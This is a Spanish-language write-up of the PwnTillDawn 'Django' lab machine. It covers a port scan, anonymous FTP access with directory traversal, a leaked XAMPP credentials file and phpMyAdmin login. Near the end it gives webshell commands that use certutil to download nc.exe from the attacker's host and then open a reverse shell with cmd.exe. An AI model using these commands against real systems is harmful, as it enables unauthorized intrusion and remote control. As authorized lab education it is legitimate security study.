









# WRITEUP Django

### ESCANEO
#### 10.150.150.212	Windows	Easy
```
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
8089/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
```

Iniciando un escaneo a la maquina, podemos observar varios puertos interesantes. El puerto 21,80,445 y el 3306.
Siempre que veamos el servicio ftp abierto, debemos intentar loguearnos como "anonymous" ya que algunas veces está activado el usuario y podría contener cosas valiosas.

### ENUMERACIÓN

Empezando por el puerto más chico, intenté loguearme como anonymous al servicio ftp y logré obtener los siguientes archivos.



al abrirlos nos topamos con la siguiente información 




como podemos observar, hay una ruta muy interesante "C:\xampp\passwords.txt". Entonces volví a ingresar al servicio ftp e intenté listar desde raíz y me listó todo.

### EXPLOTACIÓN 

Algo muy interesante que logré encontrar fue que si hago un listado del directorio recorriendo hacia atrás, sí me muestra todos los directorios... lo cual fue muy interesante ya que puedo acceder a las carpetas de otros usuarios. La primera y segunda FLAG, se encuentra en el mismo directorio de xampp

`-rw-rw-rw-   1 ftp      ftp           40 Mar 13  2019 FLAG20.txt`


```
C:\FTP\FLAG>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3829-EAA8

 Directory of C:\FTP\FLAG

03/13/2019  01:17 PM    <DIR>          .
03/13/2019  01:17 PM    <DIR>          ..
03/13/2019  01:22 PM                40 FLAG19.txt
               1 File(s)             40 bytes
               2 Dir(s)   3,864,674,304 bytes free
```



```
ftp> dir ../Users/
200 Port command successful.
150 Opening data connection for directory list.
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 .
dr--r--r--   1 ftp      ftp            0 Nov 13  2018 ..
drw-rw-rw-   1 ftp      ftp            0 Oct 22  2019 chuck.norris
dr--r--r--   1 ftp      ftp            0 Jul 14  2009 Public
drw-rw-rw-   1 ftp      ftp            0 Nov 13  2018 rambo
```

si accedemos al directorio de "chuck.norris" podemos encontrar la tercera flag.


Ahora, si accedemos a la ruta que habíamos encontrado en los logs, podemos descargar ese archivo que contiene lo siguiente:

```
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

User: root
Password:thebarrierbetween

2) FileZilla FTP:

[ You have to create a new user on the FileZilla Interface ]

3) Mercury (not in the USB & lite version):

Postmaster: Postmaster (postmaster@localhost)
Administrator: Admin (admin@localhost)

User: newuser
Password: wampp

4) WEBDAV:

User: xampp-dav-unsecure
Password: ppmax2011
Attention: WEBDAV is not active since XAMPP Version 1.7.4.
For activation please comment out the httpd-dav.conf and
following modules in the httpd.conf

LoadModule dav_module modules/mod_dav.so
LoadModule dav_fs_module modules/mod_dav_fs.so
Please do not forget to refresh the WEBDAV authentification (users and passwords).
```

Como podemos observar, hay varias credenciales que podemos utilizar. Arriba habíamos localizado el puerto 3306 que hace referencia a MYSQL, por lo tanto si accedo por el navegador directamente a ese puerto me debería lanzar el formulario de logueo.



una vez ingresando a phpmyadmin, podemos ver la ultima flag.



Ya que tenemos acceso directamente a la consola, podemos intentar subir una webshell mediante un query y mandarnos una reverse shell para obtener acceso.



Una vez que tenemos la webshell, procederemos a montar un servidor http y descargarle una reverse shell con la utilidad certutil.



`http://10.150.150.212/rs.php?cmd=certutil -urlcache -split -f "http://10.66.66.106/nc.exe" C:\\Windows\\system32\\spool\\drivers\\color\\nc.exe`

Ahora sólo resta ejecutar nc apuntando hacia nuestra dirección IP.

`http://10.150.150.212/rs.php?cmd=C:\\Windows\\system32\\spool\\drivers\\color\\nc.exe MiIP 443 -e cmd.exe`


y listo, tenemos una reverse shell.




Esta maquina nos demuestra que tan importante es desactivar el usuario anonymous ya que es muy peligroso si no tenemos bien configurado nuestro servidor FTP.
Las configuraciones por defecto siempre son peligrosas y pueden costarnos muy caro. 


Contacto: [Linkedin](www.linkedin.com/in/JairR) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
